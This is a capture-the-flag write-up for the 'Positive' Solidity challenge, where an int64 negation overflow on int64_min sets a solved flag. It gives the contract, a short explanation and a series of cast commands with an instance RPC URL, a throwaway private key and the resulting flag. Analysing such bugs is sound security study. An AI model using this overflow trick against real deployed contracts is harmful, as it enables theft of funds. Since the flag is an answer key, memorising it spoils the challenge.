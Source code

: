 # Positive

## Challenge

The challenge is deployed using the ParadigmCTF framework.

We get a contract for Positive.sol:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.7.6;

contract Positive{
    bool public solved;

    constructor() {
        solved = false;
    }

    function stayPositive(int64 _num) public returns(int64){
        int64 num;
        if(_num<0){
            num = -_num;
            if(num<0){
                solved = true;
            }
            return num;
        }
        num = _num;
        return num;
    }
}
```

Our goal is to get the solved variable to be true.

Challenge Description:
Stay positive.

## Solution
For this challenge, my first approach was to test some edge cases by throwing in numbers like 1, 0, -1, int64_max, int64_min while I test-deployed the challenge in Remix. This already yielded me the wanted result, as int64_min (-9223372036854775808) passed both checks and set the variable solved to true.

I then used cast with the following commands to set solved to true:

```bash
# uuid:           eaf81f81-bc2b-4aee-8ea3-d5d04d41e1f2
# rpc endpoint:   http://146.148.125.86:60083/eaf81f81-bc2b-4aee-8ea3-d5d04d41e1f2
# private key:    0x5e9dee143c11059ebdcc65e4e949159b4f1cbb49833a0b1895aaee78a68fb3c3
# setup contract: 0x516eD898e69427192d148a45893C8328ed33E5ca

rpc="http://146.148.125.86:60083/eaf81f81-bc2b-4aee-8ea3-d5d04d41e1f2"
priv_key=0x5e9dee143c11059ebdcc65e4e949159b4f1cbb49833a0b1895aaee78a68fb3c3
setup_contract=0x516eD898e69427192d148a45893C8328ed33E5ca

# get address
cast call $setup_contract "TARGET()(address)" --rpc-url $rpc

# Save the address we received.
positive_contract=0xE07e3fA0EB898531Cc1EC5b0dcDF86932cCD865a

# Call to the function (will prompt to input the private key)
cast send --rpc-url $rpc --private-key $priv_key $positive_contract "stayPositive(int64 _num)" -- -9223372036854775808 

# Check if it was solved
cast call $setup_contract "isSolved()(bool)" --rpc-url $rpc
```

This yields us the flag crew{9o5it1v1ty1sth3k3y}.